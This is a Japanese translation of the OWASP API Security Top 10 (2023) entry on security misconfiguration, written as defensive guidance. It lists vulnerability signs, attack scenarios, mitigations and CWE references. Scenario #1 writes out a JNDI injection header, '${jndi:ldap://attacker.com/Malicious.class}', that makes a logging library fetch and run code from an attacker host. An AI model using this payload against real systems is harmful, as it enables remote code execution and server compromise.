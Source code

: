 API7:2023 セキュリティの設定ミス (Security Misconfiguration)
============================================================

| 脅威エージェント/攻撃手法 | セキュリティ上の弱点 | 影響 |
| - | - | - |
| API 依存 : 悪用難易度 **3** | 普及度 **3** : 検出難易度 **3** | 技術的影響 **2** : ビジネス依存 |
| 多くの場合、攻撃者はパッチを適用していない欠陥、共通のエンドポイント、保護されていないファイルやディレクトリを見つけて、不認可のアクセスやシステムの知識を得ようとします。 | セキュリティの設定ミスはネットワークレベルからアプリケーションレベルまで API スタックのどのレベルでも起こりえます。不要なサービスやレガシーオプションなどの設定ミスを検出して悪用する自動ツールを利用できます。 | セキュリティの設定ミスは機密性の高いユーザーデータだけではなく、サーバー全体の侵害につながるシステムの詳細も流出する可能性があります。 |

## その API は脆弱か？

API は以下のような場合に脆弱となる可能性があります。

* API スタックのいずれかの部分で適切なセキュリティ堅牢化が行われていない場合や、クラウドサービスで不適切に設定された権限がある場合

* 最新のセキュリティパッチが適用されていない場合や、システムが古い場合
* 不要な機能が有効である場合 (HTTP verb、ログ機能など)
* HTTP サーバーチェーン内のサーバーが受信したリクエストを処理する方法に齟齬がある場合

* Transport Layer Security (TLS) がない場合
* セキュリティディレクティブやキャッシュコントロールディレクティブがクライアントに送信されない場合
* Cross-Origin Resource Sharing (CORS) ポリシーがない場合や適切に設定されていない場合
* エラーメッセージにスタックトレースが含まれている場合や、他の機密情報を公開している場合

## 攻撃シナリオの例

### シナリオ #1

ある API バックエンドサーバーは一般的なサードパーティのオープンソースログ記録ユーティリティによって書き込まれたアクセスログを維持します。これはプレースフォルダ拡張と JNDI (Java Naming and Directory Interface) ルックアップをサポートしており、デフォルトで有効になっています。
各リクエストに対して、新しいエントリが次のパターン `<method> <api_version>/<path> - <status_code>` でログファイルに書き込まれます。




悪意のあるアクターが以下の API リクエストを発行し、それがアクセスログファイルに書き込まれます。


```
GET /health
X-Api-Version: ${jndi:ldap://attacker.com/Malicious.class}
```

ログ記録ユーティリティの安全でないデフォルト設定と寛容なネットワークアウトバウンドポリシーにより、アクセスログに当該エントリを書き込むために、`X-Api-Version` リクエストヘッダの値を展開して、このログ記録ユーティリティは攻撃者のリモートコントロールサーバーから `Malicious.class` を取得して実行するでしょう。





### シナリオ #2

あるソーシャルネットワークウェブサイトではユーザーがプライベートな会話を続けることができる「ダイレクトメッセージ」機能を提供しています。
特定の会話の新しいメッセージを取得するために、ウェブサイトは以下の API リクエストを発行します (ユーザーによる操作は必要ありません) 。



```
GET /dm/user_updates.json?conversation_id=1234567&cursor=GRlFp7LCUAAAA
```

この API レスポンスには Cache-Control HTTP レスポンスヘッダが含まれていないため、プライベートな会話は最終的にウェブブラウザにキャッシュされ、悪意のあるアクターはファイルシステム内のブラウザキャッシュファイルからその会話を取得できます。




## 防止方法

API ライフサイクルには以下を含めます。

* 適切にロックダウンした環境を迅速かつ容易なデプロイメントにつながる反復可能な堅牢化プロセス

* API スタック全体の設定をレビューして更新するタスク。レビューにはオーケストレーションファイル、API コンポーネント、クラウドサービス (S3 バケットのパーミッションなど) を含めます。


* すべての環境における構成と設定の有効性を継続的に評価する自動化されたプロセス


さらに

* クライアントから API サーバーおよびあらゆるダウンストリームコンポーネントおよびアップストリームコンポーネントへのすべての API 通信は、内部 API であるか外部公開 API であるかに関わらず、暗号化された通信チャネル (TLS) で行うようにします。


* 各 API にアクセスできる HTTP verb を特定します。それ以外の HTTP verb (HEAD など) はすべて無効にします。

* ブラウザベースのクライアント (ウェブアプリのフロントエンドなど) からアクセスされることが予想される API には、適切な Cross-Origin Resource Sharing (CORS) ポリシーを実装します。

* HTTP サーバーチェーンのすべてのサーバー (ロードバランサ、リバースプロキシ、フォワードプロキシ、バックエンドサーバなど) が受信リクエストを均一な方法で処理して、非同期問題を回避するようにします。


* 適用可能であれば、エラーレスポンスを含むすべての API レスポンスペイロードスキーマを定義して適用し、例外トレースやその他の価値ある情報が攻撃者に送り返されることを防ぎます。



## 参考資料

### OWASP

* [OWASP Secure Headers Project][1]
* [Configuration and Deployment Management Testing - Web Security Testing Guide][2]

* [Testing for Error Handling - Web Security Testing Guide][3]
* [Testing for Cross Site Request Forgery - Web Security Testing Guide][4]

### その他

* [CWE-2: Environmental Security Flaws][5]
* [CWE-16: Configuration][6]
* [CWE-209: Generation of Error Message Containing Sensitive Information][7]
* [CWE-319: Cleartext Transmission of Sensitive Information][8]
* [CWE-388: Error Handling][9]
* [CWE-444: Inconsistent Interpretation of HTTP Requests ('HTTP Request/Response Smuggling')][10]

* [CWE-942: Permissive Cross-domain Policy with Untrusted Domains][11]
* [Guide to General Server Security][12], NIST
* [Let's Encrypt: a free, automated, and open Certificate Authority][13]

[1]: https://owasp.org/www-project-secure-headers/
[2]: https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/02-Configuration_and_Deployment_Management_Testing/README
[3]: https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/08-Testing_for_Error_Handling/README
[4]: https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/06-Session_Management_Testing/05-Testing_for_Cross_Site_Request_Forgery
[5]: https://cwe.mitre.org/data/definitions/2.html
[6]: https://cwe.mitre.org/data/definitions/16.html
[7]: https://cwe.mitre.org/data/definitions/209.html
[8]: https://cwe.mitre.org/data/definitions/319.html
[9]: https://cwe.mitre.org/data/definitions/388.html
[10]: https://cwe.mitre.org/data/definitions/444.html
[11]: https://cwe.mitre.org/data/definitions/942.html
[12]: https://csrc.nist.gov/publications/detail/sp/800-123/final
[13]: https://letsencrypt.org/
